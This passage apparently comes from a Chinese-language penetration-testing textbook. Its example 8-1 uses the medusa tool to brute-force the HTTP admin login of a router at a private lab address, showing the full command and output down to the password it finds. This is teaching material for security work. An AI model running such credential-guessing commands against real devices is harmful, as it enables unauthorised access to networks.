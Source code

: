 ![253-02](img/00396.jpg)

以上输出的信息显示了 medusa 命令的帮助信息。包括 meduas 命令的语法、可使用的选项及参数。用户可以根据自己的需要，选择相应的选项获取路由器的访问权。下面看一个例子的运行结果。

【实例 8-1】使用 medusa 暴力破解地址为 192.168.5.1 的路由器，执行命令如下所示：

```
root@kali:~# medusa -h 192.168.5.1 -u admin -P /usr/share/wfuzz/wordlist/fuzzdb/wordlists-user-
passwd/passwds/john.txt -M http -e ns 80 -F
Medusa v2.0 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: (1 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: admin (2 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: 12345 (3 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: abc123 (4 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: password (5 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: computer (6 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: 123456 (7 of 3109 complete)
ACCOUNT CHECK: [http] Host: 192.168.5.1 (1 of 1, 0 complete) User: admin (1 of 1, 0 complete) Password: huolong5 (8 of 3109 complete)
ACCOUNT FOUND: [http] Host: 192.168.5.1 User: admin Password: daxueba [SUCCESS] 
```
